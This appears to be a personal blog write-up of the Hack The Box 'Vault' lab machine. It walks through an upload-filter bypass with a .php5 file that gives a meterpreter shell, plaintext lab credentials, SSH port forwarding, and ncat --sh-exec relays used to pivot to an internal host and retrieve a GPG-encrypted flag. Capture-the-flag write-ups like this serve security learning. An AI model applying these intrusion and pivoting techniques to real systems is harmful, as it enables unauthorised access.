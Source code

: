 ```yaml
---
layout: post
title:  "HTB Vault Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Vault is easily one of my favourite boxes on hackthebox. It taught me a lot about tunneling and moving through a network any way possible. This is one of the boxes i got truely stuck into for days and could not stop thinking about what the next move was.

# Initial Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host
```

# First webapp
The initial webapp doesnt give too much away but what it does say is enough. 
```
Welcome to the Slowdaddy web interface
We specialise in providing financial orginisations with strong web and database solutions and we promise to keep your customers financial data safe.
We are proud to announce our first client: Sparklays (Sparklays.com still under construction) 
```

We can infer from this that 'sparklays' will be a directory, we can add this to our directory bruteforcer to find the relevant files.
/sparklays/admin.php - login prompt
/sparklays/login.php - 'access denied'
/sparklays/design/uploads - file upload

# Landing a shell
Testing some file uploads, its clear we cant upload anything with a .php extension, .php5 however, works just fine. Navigating to the page with our file executes and we get our meterpreter session.
The directory listing on the server is as follows:
```
home/alex
home/dave
	servers.txt;
		DNS + Configurator - 192.168.122.4
		Firewall - 192.168.122.5
		The Vault - x
	key.txt;
		itscominghome
	ssh.txt;
		Dav3therav3123
```
# Second webapp
We now have ssh creds for dave. We can now tunnel to access that page we couldnt reach before.
```
ssh -L 8888:192.168.122.4:80 dave@10.10.10.109
```
This page looks to be a testing page for a vpn config. Theres also a /notes directory which contains the following
```
chmod 123.ovpn and script.sh to 777
```

I found this handy guide on the best way to exploit this vpn testing page for code execution (link)

We can use nc as a listener on daves system because where in the dns. Now we land as root @ dns and we can get the user flag.

Theres a new ssh file in the dave directory on the dns now. 
```
theres also a ‘ssh’ file in the dave dir
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

Looks like a password or something but doesnt work on the initial site. We will have to keep it for later.




# breakpoint 1
At this point, what do we know.
- We are root@dns when we want
- We know there is an alex user
- We have unused passwords;
	- itscominghome
	- dav3gerous567
- We have the address of vault - 192.168.5.2

# Getting to the end

Checking /var/log/auth.log we get an interesting result.
```
root : TTY=unknown ; PWD=/var/www/html ; USER=root ; COMMAND=/usr/bin/ncat -l 1235 --sh-exec ncat 192.168.5.2 987 -p 53
```

From this we get an idea of what we have to do. We have to use netcat to inject another netcat for us to connect to.

```
sudo ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
use the ampersand to background it
ssh dave@192.168.122.4 -p 1234
    
we get in
    
dave@vault:~$ ls
root.txt.gpg
```

We have our root flag right here but we cant decrypt yet.
We will have to move it from vault > dns > ubuntu.

# Root flag
oh jeez, weve come this far, and now we need to go back.
We have a GPG encrypted file (root flag) but the key is on the first system, since gpg works the way it works, we have to move it to that first system where the key is.
I chose to move the file with scp but in hindsight there was probably a better way of doing this.
```
dave@DNS:/tmp$ scp -P 1331 dave@192.168.122.4:/home/dave/root.txt.gpg /tmp
The authenticity of host '[192.168.122.4]:1331 ([192.168.122.4]:1331)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yse
Please type 'yes' or 'no': yes
Warning: Permanently added '[192.168.122.4]:1331' (ECDSA) to the list of known hosts.
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
[1]+  Done                    sudo ncat -l 1331 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp dave@192.168.122.4:/tmp/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
<flag redacted>
```
Once back on the first system and decoding the flag, gpg asks for a password and weve had it all this time
Decrypting with the key gives us our flag to submit.





